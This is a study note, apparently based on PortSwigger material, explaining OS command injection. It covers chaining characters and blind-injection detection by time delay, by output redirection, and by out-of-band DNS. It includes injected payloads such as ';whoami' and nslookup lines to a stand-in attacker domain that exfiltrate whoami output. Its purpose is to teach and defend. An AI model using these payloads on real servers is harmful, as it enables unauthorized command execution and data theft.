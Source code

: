 # OS command injection

Source:[portswigger](https://portswigger.net/web-security/os-command-injection)

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data. Very often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.

If there is no input defense against insection, simply by adding `;<command>` or Similar can run the command.Eg instead of `productId=1&storeId=1` if we change the parameter to `productId=1&storeId=1;whoami` the server will also run whoami command.

## Ways of injecting OS commands
Using special characters to chain commands.
- &
- &&
- |
- ||
- ;(only in unix-based)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

- \` injected command \`
- $( injected command )


## Blind OS command injection vulnerabilities
Here the output of the injection is not reflected on the webpage but are exploitable.

### Detecting blind OS command injection using time delays
If we trigger a time delay then from response time we can understand if it is vulnerable to OS command injection. Eg by adding `& ping -c 10 127.0.0.1 &` the response will take 10 secs.

### Exploiting blind OS command injection by redirecting output
If we execute `whoami` it will not get reflected on the response. So we can store the output of whoami by storing in another file.Eg `& whoami > /var/www/static/whoami.txt &`.

### Exploiting blind OS command injection using out-of-band (OAST) techniques
You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:
```
& nslookup kgji2ohoyw.web-attacker.com &
```
This payload uses the nslookup command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.

The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```
This will cause a DNS lookup to the attacker's domain containing the result of the `whoami` command `wwwuser.kgji2ohoyw.web-attacker.com`


## How to prevent OS command injection attacks

- Validating against a whitelist of permitted values.
- Validating that the input is a number.
- Validating that the input contains only alphanumeric characters, no other syntax or whitespace.
